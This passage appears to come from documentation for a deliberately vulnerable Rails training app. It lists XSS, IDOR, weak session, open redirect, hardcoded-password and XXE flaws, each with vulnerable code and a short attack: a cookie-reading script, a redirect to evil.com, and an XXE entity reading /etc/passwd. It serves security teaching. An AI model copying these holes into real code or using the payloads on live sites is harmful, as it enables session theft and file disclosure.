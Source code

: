 ### 4. Cross-Site Scripting (XSS)
```erb
<!-- Vulnerable view -->
<%= raw params[:message] %>
<%= params[:search].html_safe %>

<!-- Attack -->
<script>alert(document.cookie)</script>
```

### 5. Insecure Direct Object Reference (IDOR)
```ruby
# No authorization check
def show
  @document = Document.find(params[:id])
end

# Attack
http://localhost:3002/documents/1
http://localhost:3002/documents/2
```

### 6. Session Management Issues
```ruby
# Weak session configuration
Rails.application.config.session_store :cookie_store, 
  key: '_railsgoat_session',
  httponly: false  # XSS can steal sessions
```

### 7. Unvalidated Redirects
```ruby
def login
  redirect_to params[:redirect_url] || root_path
end

# Attack
http://localhost:3002/login?redirect_url=http://evil.com
```

### 8. Security Misconfiguration
```yaml
# config/database.yml exposed
production:
  password: <%= ENV['DATABASE_PASSWORD'] || 'admin123' %>
```

### 9. XML External Entity (XXE)
```ruby
# Unsafe XML parsing
def parse_xml
  doc = Nokogiri::XML(params[:xml])
end

# Attack
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<user><name>&xxe;</name></user>
```
